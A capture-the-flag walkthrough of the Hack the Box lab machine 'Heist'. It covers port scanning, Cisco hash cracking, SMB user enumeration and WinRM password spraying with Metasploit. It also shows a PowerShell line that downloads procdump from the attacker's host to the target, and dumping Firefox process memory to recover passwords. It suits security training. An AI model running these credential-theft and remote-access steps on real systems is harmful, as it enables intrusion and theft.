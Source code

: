 +++
author = "Nick"
categories = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
date = 2019-11-30T15:07:05Z
description = ""
draft = false
thumbnail = "/images/2019/09/info-1.png"
slug = "hack-the-box-heist"
summary = "Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!"
tags = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
title = "Hack the Box - Heist"

+++


Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!

As usually we start off with our standard nmap scan. ```nmap -sC -sV -oA heistscan 10.10.10.149```
```
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 39s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-09T15:55:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We get back a fairly limited amount of results. So lets just be safe and rescan all ports. ```nmap -sV -p- -T4 10.10.10.149```

```
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect resul
```

This is bit more interesting. We see that we have port 5985 open, which is WinRM. That can be handy later on. Lets check out what the HTTP service is hosting.

![](/images/2019/09/image-1.png)

We see a login portal, admin:admin or any other standard password username combo's. We do see an option to login as guest. When we click it we are brought to a conversation tree.

![](/images/2019/09/image-2.png)

We are able to deduce a username, Hazard, as well as an attachment's directory. When we look at the attachement, we see a cisco config. We can decrypt level 7 passwords with an online tool [here](http://www.ifm.net.nz/cookbooks/passwordcracker.html). We enter in the encrypted password and get our dencrypted password back.

![](/images/2019/09/image-3.png" caption="The first.)

![](/images/2019/09/image-5.png" caption="The second.)

We also have the ability to try and brute for the type 5 passwords as well, but it fails. That's probably a better job for hashcat. We will put that type 5 password into a file and feed it to hashcat. I'll crack this from my windows machine since my VM would take forever to do it!

We issue ```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt``` and wait.

![](/images/2019/09/image-4.png" caption="stealth1agent eh?)

Seconds later, we have a stealth1agent listed as the password. So now that we have a username and three passwords, we should try to see if they are a valid credentials for SMB.

We can start by enumerating shares on the target. ```smbmap -L \\\\10.10.10.149\\ -U Hazard```. We can then give it the password we just cracked and see if we can list some shares.

![](/images/2019/09/image-6.png)

We have a standard listing of shares. Trying to login with the three passwords we have as Hazard didn't work. So we'll need to enumerate the users a bit more. We can use a tool called lookupsid.py by [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py).

![](/images/2019/09/image-7.png)

We now have a list of users on the machine as well as the domain the machine is part of. We now have enough data to try and spray the RPC port for working credentials. First we need to compile the users into a file as well as all our passwords.

![](/images/2019/09/image-8.png)

We can now start up Metasploit using ```msfdb run```. We can locate some useful WinRM modules with ```search WinRM``` within Metasploit.

![](/images/2019/09/image-9.png)

In this case we want to use option 2, winrm_login. When we show the options we see the fields we want to use are ```PASS_FILE```, ```RHOSTS```, ```DOMAIN``` and ```USER_FILE```.

![](/images/2019/09/image-10.png)

We set all the options and let it rip!

![](/images/2019/09/image-11.png)

Looks like Chase is our guy! We will try to login using the above credentials to SMB and see what we get.

![](/images/2019/09/image-14.png)

Denied. After some quick digging around for WinRM RCE's, I found [this](https://alamot.github.io/winrm_shell/). We will simply modify the script with our credentials and target and see if it works out.

![](/images/2019/09/image-16.png" caption="Note that we have HTTP and not HTTPS.)

We have a shell!

![](/images/2019/09/image-17.png)

We change our directory to Desktop and snag the user.txt file. Onto root!

We know that since we've connected via WinRM that our current shell is powershell. So we can enumerate our processes by issueing ```get-process```. When we do, we notice everything is pretty normal except the Firefox instances. This is to emulate that there is another user on the machine running something, maybe an admin.

![](/images/2019/09/image-18.png)

As part of our enumeration, we head over to C:/inetpub/wwwroot and see whats there.

![](/images/2019/09/image-19.png)

We don't seem to have the ability to list the contents of the directory. We do however know what some of the pages that are being served, mostly login.php. Lets try to view that. It works, we can view the content of this PHP file. The part that sticks out is the password verification.

![](/images/2019/09/image-20.png)

We have a SHA256 encrypted password being stored here in plain text. We can simply decrypt this and have the password for admin.

![](/images/2019/09/image-21.png)

Lets try the same WinRM with the username Administrator and this password.

![](/images/2019/09/image-22.png)

Success! We have the root flag! However, I don't think that was the intended way of gaining root. I think the machine creator wanted us to use ProcDump to dump data from the FireFox instances and find the password in that dump. So lets do that too.

The first things we need to do is download ProcDumpfrom Microsoft. Once we do we will sping up a SimpleHTTPServer and serve the files to our machine: ```python -m SimpleHTTPServer 80```.

Now that its running we can use powershell to grab the file.

```(new-object net.webclient).DownloadFile("http://10.10.14.136/procdump64.exe","C:/users/Chase/Documents/p64.exe")```

We now have the file renamed as p64.exe. We will give it the commands to dump the processes from the larges running firefox instance.

![](/images/2019/09/image-23.png)

In this case we will use process 6612 since its using the mose amount of CPU. ```./p64.exe -accepteula -ma 6612```.

![](/images/2019/09/image-24.png)

This kicks out our dump file. One thing you may have noticed as we are jumping around on the system that Linux Subsystem is enabled on this machine. This helps us because we can use some linux based commands to parse this file.

```cat firefox.exe_190913_231848.dmp | % { if($_ -match "password") {echo $_}}```

This will give us a large output but if we sift through it, we should find the password we are looking for!
Sure enough, if you have your terminal scroll back high enough, you will find and unecrypted password. Now it would probably be a bit easier to download the file back to our attacking machine and just ```strings``` and ```grep``` the file for password but the file is a bit too large to be doing on the HTB network.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

